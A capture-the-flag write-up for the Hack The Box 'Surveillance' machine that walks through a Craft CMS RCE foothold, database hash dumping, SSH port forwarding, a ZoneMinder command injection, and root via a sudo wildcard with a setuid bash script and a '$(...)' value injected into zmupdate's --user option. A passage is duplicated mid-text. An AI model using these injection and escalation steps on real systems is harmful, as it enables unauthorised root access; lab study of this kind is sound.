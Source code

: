 ```yaml
---
slug: /write-up/htb/medium/surveillance
pagination_next: null
pagination_prev: null
---
```


## Enumeration


```bash
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title:  Surveillance 
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ubuntu jammy running nginx 1.18.0

Browsing the web, we can see the following link: https://github.com/craftcms/cms/tree/4.4.14. Looks like it's made with `craftcms` and we have the precise version.

## Foothold

Looks like it's vulnerable to a RCE vulnerability (fixed by 4.4.15): 

- https://putyourlightson.com/articles/critical-craft-cms-security-vulnerability
- https://blog.calif.io/p/craftcms-rce
- https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226

With latest POC, we got foothoold, now we can run a reverse shell, improve it and start investigating.

Right now we can acess as `wwww-data`.

## Lateral movement

In home we found two users:

```bash
www-data@surveillance:~/html/craft/web/cpresources$ ls /home
matthew  zoneminder
```

There are many things listening in localhost:
```bash
www-data@surveillance:~/html/craft$ netstat -na |grep "LISTEN"
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN  
```

Looks like there's a `ZoneMinder` server running in port 8080 but only listening in localhost. Looks really interesting for later.

I managed to exfiltrate the contents of /var/www and found the configuration to connect to mysql database which contains an entry for admin user:

```bash
MariaDB [craftdb]> select username,fullName,password from users;
+----------+-----------+--------------------------------------------------------------+
| username | fullName  | password                                                     |
+----------+-----------+--------------------------------------------------------------+
| admin    | Matthew B | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe |
+----------+-----------+--------------------------------------------------------------+
```

If we manage to crack the hash, we might get the password of matthew user. Checking the contents, of the web there's a backup of the database which contains a different hash, it might be worth trying to crack it.

Crack it, got the user password for `matthew`: Looks like there's a `ZoneMinder` server running in port 8080 but only listening in localhost. Looks really interesting for later.

I managed to exfiltrate the contents of /var/www and found the configuration to connect to mysql database which contains an entry for admin user:

```bash
MariaDB [craftdb]> select username,fullName,password from users;
+----------+-----------+--------------------------------------------------------------+
| username | fullName  | password                                                     |
+----------+-----------+--------------------------------------------------------------+
| admin    | Matthew B | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe |
+----------+-----------+--------------------------------------------------------------+
```

If we manage to crack the hash, we might get the password of matthew user. Checking the contents, of the web there's a backup of the database which contains a different hash, it might be worth trying to crack it.

Crack it, got the user password for `matthew`. Now we can connect with SSH and read the user flag.

## Privilege escalation

The user cannot run sudo. Now that we have SSH access, we can do port forwarding to access the instance running in localhost:

```bash
ssh -L 8080:localhost:8080 matthew@surveillance.htb
```

We can have access to the ZoneMinder thing by using the user admin and the same password as `matthew`.

Now we can see the version: 
    v1.36.32

Looks like it's vulnerable to https://pentest-tools.com/vulnerabilities-exploits/zoneminder-snapshots-command-injection_22437 because it mentions prior versions to 1.36.33 and 1.37.33

Since the process does not appear for the user `matthew`, it might be running for another user or for `root`. Either way, we can try to exploit the RCE vulnerability and continue from there.

The POC worked perfectly and we got access to user `zoneminder`. Now let's improve the shell and continue.

Checking what the user can do, looks like it can execute some script as root without specifying a password:

```bash
zoneminder@surveillance:~$ sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
zoneminder@surveillance:~$ 
```

This means any user can run any binary called zm*.pl in the /usr/bin/ directory under the root context, no password will be prompted. Morevoer, any option can be passed to the binary since it uses a wildcard in the sudoers file. This is a wide open configuration which can be abused using wildcard injection. Prepare a shell exploit.

```bash
echo 'cp /bin/bash /var/tmp/bash;chmod 4755 /var/tmp/bash' > /var/tmp/exploit.sh
chmod +x /var/tmp/exploit.sh
```

Now just run any zm* binary and inject a command calling the exploit, it will be executed under the root context. For example, using zmupdate with the --version option will force the tool to upgrade the database, and it allows us to inject a command to execute the exploit:

```bash
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/var/tmp/exploit.sh)'
```

Now execute the copied bash with `-p` and we got root access.